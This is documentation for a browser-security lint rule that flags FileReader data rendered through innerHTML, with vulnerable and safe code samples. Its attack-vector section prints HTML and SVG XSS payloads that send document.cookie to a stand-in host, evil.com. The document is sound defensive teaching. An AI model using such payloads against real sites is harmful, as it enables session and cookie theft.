

# browser-security/no-filereader-innerhtml

> 🔒 Disallow using innerHTML with FileReader data

## Rule Details

This rule prevents using `innerHTML`, `outerHTML`, `insertAdjacentHTML()`, or `document.write()` with data read from files via `FileReader`. Malicious files can contain XSS payloads that execute when rendered.

### Why is this dangerous?



When you render file content with innerHTML:

1. **Uploaded HTML/SVG files can contain scripts**
2. **Scripts execute in your application context**
3. **Attacker has access to cookies, localStorage, DOM**

## Examples

### ❌ Incorrect

```javascript
// Direct innerHTML with FileReader result
reader.onload = (e) => {
  element.innerHTML = e.target.result;
};

// outerHTML
fileReader.onload = (event) => {
  container.outerHTML = event.target.result;
};

// insertAdjacentHTML
reader.onload = (e) => {
  preview.insertAdjacentHTML('beforeend', e.target.result);
};

// onloadend event
reader.onloadend = (e) => {
  output.innerHTML = e.target.result;
};
```

### ✅ Correct

```javascript
// Use textContent for plain text files
reader.onload = (e) => {
  codePreview.textContent = e.target.result;
};

// Sanitize before rendering HTML
reader.onload = (e) => {
  const sanitized = DOMPurify.sanitize(e.target.result);
  container.innerHTML = sanitized;
};

// Use intermediate sanitized variable
reader.onload = (e) => {
  const cleanHtml = DOMPurify.sanitize(e.target.result, {
    ALLOWED_TAGS: ['p', 'b', 'i', 'em', 'strong', 'a'],
    ALLOWED_ATTR: ['href'],
  });
  preview.innerHTML = cleanHtml;
};

// For images, use data URLs properly
reader.onload = (e) => {
  imagePreview.src = e.target.result; // Safe for images
};

// Parse structured data (JSON, XML)
reader.onload = (e) => {
  try {
    const data = JSON.parse(e.target.result);
    displayData(data); // Handle data programmatically
  } catch (err) {
    showError('Invalid file format');
  }
};
```

## Options

```json
{
  "browser-security/no-filereader-innerhtml": [
    "error",
    {
      "allowInTests": true
    }
  ]
}
```

| Option         | Type      | Default | Description                                        |
| -------------- | --------- | ------- | -------------------------------------------------- |
| `allowInTests` | `boolean` | `true`  | Skip checking in test files (_.test.ts, _.spec.ts) |

## Detection Patterns

The rule detects:

1. **`reader.onload` handlers** using innerHTML with e.target.result
2. **`reader.onloadend` handlers** with the same pattern
3. **Common reader variable names**: reader, fileReader, fr, r

## Common File Upload Attack Vectors

### Malicious HTML File

```html
{/*  malicious.html  */}

<script>
  new Image().src = 'https://evil.com?' + document.cookie;
</script>
```

### Malicious SVG File

```xml
{/*  malicious.svg  */}
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
  <script>fetch('https://evil.com?cookies='+document.cookie)</script>
</svg>
```

## When Not To Use It

You may disable this rule if:

- You're rendering only non-HTML content (plain text, JSON)
- You have thorough sanitization that the rule can't detect

However, **always sanitize file content** before rendering as HTML.

## Related Rules

- [`browser-security/no-innerhtml`](./no-innerhtml.md) - General innerHTML prevention
- [`browser-security/no-postmessage-innerhtml`](./no-postmessage-innerhtml.md) - postMessage XSS prevention

## Known False Negatives

The following patterns are **not detected** due to static analysis limitations:

### Result Stored in Variable

**Why**: File data stored in variables not traced.

```typescript
// ❌ NOT DETECTED - Stored first
reader.onload = (e) => {
  const content = e.target.result;
  element.innerHTML = content; // From variable
};
```

**Mitigation**: Always sanitize before any innerHTML assignment.

### Custom Sanitizer

**Why**: Non-standard sanitizer names may not be recognized.

```typescript
// ❌ NOT DETECTED - Custom sanitizer
element.innerHTML = myCustomSanitizer(e.target.result);
```

**Mitigation**: Configure trusted sanitizer names.

### Async Handler

**Why**: Async processing may break detection.

```typescript
// ❌ NOT DETECTED - Async handler
reader.onload = async (e) => {
  await delay(100);
  element.innerHTML = e.target.result;
};
```

**Mitigation**: Sanitize in all async paths.

## OWASP Mapping

| Category          | ID                   |
| ----------------- | -------------------- |
| OWASP Top 10 2021 | A03:2021 - Injection |
| CWE               | CWE-79               |
| CVSS              | 8.1 (High)           |
